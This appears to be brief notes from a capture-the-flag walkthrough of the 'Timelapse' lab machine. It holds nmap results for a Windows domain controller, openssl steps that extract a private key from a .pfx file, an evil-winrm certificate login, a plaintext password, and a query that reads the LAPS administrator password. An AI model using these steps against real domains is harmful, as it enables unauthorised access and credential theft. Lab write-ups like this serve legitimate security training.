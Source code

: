 

```
PORT      STATE SERVICE        REASON
53/tcp    open  domain         syn-ack ttl 127
88/tcp    open  kerberos-sec   syn-ack ttl 127
135/tcp   open  msrpc          syn-ack ttl 127
139/tcp   open  netbios-ssn    syn-ack ttl 127
389/tcp   open  ldap           syn-ack ttl 127
445/tcp   open  microsoft-ds   syn-ack ttl 127
464/tcp   open  kpasswd5       syn-ack ttl 127
593/tcp   open  http-rpc-epmap syn-ack ttl 127
636/tcp   open  ldapssl        syn-ack ttl 127
5986/tcp  open  wsmans         syn-ack ttl 127
9389/tcp  open  adws           syn-ack ttl 127
49667/tcp open  unknown        syn-ack ttl 127
49673/tcp open  unknown        syn-ack ttl 127
49674/tcp open  unknown        syn-ack ttl 127
49693/tcp open  unknown        syn-ack ttl 127
63059/tcp open  unknown        syn-ack ttl 127

PORT     STATE    SERVICE           REASON          VERSION
53/tcp   open     domain            syn-ack ttl 127 Simple DNS Plus
88/tcp   open     kerberos-sec      syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2024-10-06 00:18:43Z)
135/tcp  open     msrpc             syn-ack ttl 127 Microsoft Windows RPC
139/tcp  open     netbios-ssn       syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp  open     ldap              syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
445/tcp  open     microsoft-ds?     syn-ack ttl 127
593/tcp  open     ncacn_http        syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp  open     ldapssl?          syn-ack ttl 127
3268/tcp open     ldap              syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
3269/tcp open     globalcatLDAPssl? syn-ack ttl 127
5985/tcp filtered wsman             no-response
9389/tcp open     mc-nmf            syn-ack ttl 127 .NET Message Framing
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
```

timelapse.htb
dc1.timelapse.htb















openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out legacyy_dev_auth.key-enc
openssl rsa -in legacyy_dev_auth.key-enc -out legacyy_dev_auth.key
openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out legacyy_dev_auth.crt
 
 
 evil-winrm -i $IP -S -k legacyy_dev_auth.key -c legacyy_dev_auth.crt




E3R$Q62^12p7PLlC%KWaxuaV

Get-ADComputer DC01 -property 'ms-mcs-admpwd'



https://0xdf.gitlab.io/2018/11/08/powershell-history-file.html

